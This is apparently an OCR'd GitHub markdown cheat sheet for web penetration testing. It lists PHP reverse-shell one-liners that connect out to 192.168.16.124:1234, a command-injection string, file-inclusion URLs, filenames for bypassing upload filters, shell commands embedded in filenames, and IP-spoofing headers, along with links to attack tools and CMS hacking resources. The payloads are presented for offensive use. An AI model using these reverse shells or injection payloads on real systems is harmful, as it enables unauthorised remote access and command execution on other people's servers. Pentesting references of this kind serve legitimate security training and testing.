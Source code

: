 # WEB

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


XSRF (Cross-site Request Forgery)
---------------------------------

* [CSurfer](https://github.com/asaafan/CSurfer/) - CSRF guard hiding extension for Burp
* [CSRF-Request-Builder](https://github.com/TheRook/CSRF-Request-Builder/) - tool for testing CSRF against web services


Command Injection
-----------------

* Try to use pipe, ampersands, double ampersands, colon: `1 | uname -a & users & id`


File Inclusion
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

* [PHP File Inclusion Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)  
* [Uniscan](https://sourceforge.net/projects/uniscan/) - simple RFI, LFI and RCE vulnerability scanner  

File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path

* Uploading `.htaccess` and remapping filetypes
* Shellcode in filename:
```
.png; ls -la;
; whoami; .png
```

PHP-Specific
------------

* [IonCube V8.2 + PHP Auto - Fixer Decoder](http://phpdecode.blogspot.co.at/)


XXE (XML External Entity Injection)
-----------------------------------

* [Preventing XXE in PHP](https://websec.io/2012/08/27/Preventing-XEE-in-PHP.html)

SSL
---

* [SSL Checklist for Pentesters - the Manual Cheatsheet](http://www.exploresecurity.com/wp-content/uploads/custom/SSL_manual_cheatsheet.html)


IP Spoofing
-----------

Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  

Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser-Related
---------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"  
* Pentesting plugins: [Firebug](http://getfirebug.com/), [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/), [FoxyProxy](https://getfoxyproxy.org/), [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), [FileStorage Plus!](https://addons.mozilla.org/de/firefox/addon/firestorage-plus/), [NoScript Security Suite](https://addons.mozilla.org/en-US/firefox/addon/noscript/), [HackBar](https://addons.mozilla.org/en-US/firefox/addon/hackbar/)  


CMS-Specific
============

Drupal
------

* [Attacking Drupal](http://www.slideshare.net/heinzarelli/attacking-drupal)
* [DPScan](http://www.ehacking.net/2012/02/dpscan-drupal-security-scanner-tutorial.html)
* [Drupal by Mad Irish](http://www.madirish.net/tag/drupal) - good resource on Drupal vulns
* Find out which version: `domain.com/changelog.txt`

Liferay
-------

* [LiferayScan](https://github.com/bcoles/LiferayScan) - simple remote scanner for Liferay Portal
* [Hacking Liferay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html) - version 6.06
* [Liferay Portal Security Research](http://www.procheckup.com/media/194945/liferay.pdf) - version 6.05

